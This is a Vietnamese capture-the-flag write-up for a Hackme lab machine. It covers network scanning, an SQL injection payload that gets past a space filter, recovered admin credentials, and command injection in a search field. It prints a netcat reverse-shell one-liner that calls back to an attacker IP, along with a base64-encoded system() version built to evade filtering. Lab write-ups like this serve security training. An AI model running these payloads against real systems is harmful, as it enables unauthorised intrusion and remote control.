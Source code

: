 # Hackme1
***

### Network Scanning

Đầu tiên tìm địa chỉ ip mục tiêu

```sudo netdiscover -i eth0 -r 192.168.169.0/24```

![](images/1.png)

**Target IP: 192.168.169.139**

Tiếp theo scan các dịch vụ và cổng đang mở

```sudo nmap -sV -O 192.168.169.139```

![](images/2.png)

+ Port 22: SSH
+ Port 80: Apache httpd 2.4.34

### ENUMERATION

Discovery

```ffuf -w /usr/share/wordlists/dirb/common.txt -e .php,.zip,.txt -u http://192.168.169.139/FUZZ```

![](images/7.png)

Thử truy cập vào port 80

![](images/3.png)

Hiện thị một trang login và sign up

![](images/4.png)

Thử đăng nhập, hiện giao diện cho phép tìm kiếm

![](images/5.png)

Sau khi tìm kiếm thấy đầu vào bị lọc dấu khoảng trắng

![](images/6.png)

Thử SQLi

```'/**/UNION/**/SELECT/**/null,null,null--/**/a```

![](images/8.png)

Thử một dấu comment khác

```'/**/UNION/**/SELECT/**/null,null,null#/**/a```

![](images/9.png)

Payload có hiệu quả tiếp theo tìm kiếm các bảng như lab [Hackme1](../Hackme1/README.md)

Tìm được tài khoản
```superadmin:Uncrackable```

Đăng nhập vào có 2 tính năng: upload file, search user


![](images/10.png)

### Test tính năng up file
Thử upload 1 file test.php nhưng hiện thông báo chỉ cho phép up file ảnh

![](images/11.png)

Chỉnh sửa extension up được nhưng không truy cập được

![](images/12.png)

### Test tính năng search

Thử test với câu lệnh system

![](images/13.png)

![](images/14.png)

Câu lệnh được thực thi ở ```Last Name```

Tiến hành tải một reverse shell từ đây nhưng trong ```fistname-lastname``` bị strip khoảng trắng

Sau khi thử encode hay tab đều không được thì ta quyết định thử encode sang dạng base64 rồi decode lại để đạt được mục tiêu

```rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.169.137 5555 >/tmp/f```

Sau khi encode

```system(base64_decode("cm0gL3RtcC9mO21rZmlmbyAvdG1wL2Y7Y2F0IC90bXAvZnwvYmluL3NoIC1pIDI+JjF8bmMgMTkyLjE2OC4xNjkuMTM3IDU1NTUgPi90bXAvZg=="))```

![](images/15.png)

Tiếp theo giống [Hackme1](../Hackme1/README.md) để đạt được quyền root

## Complete!!!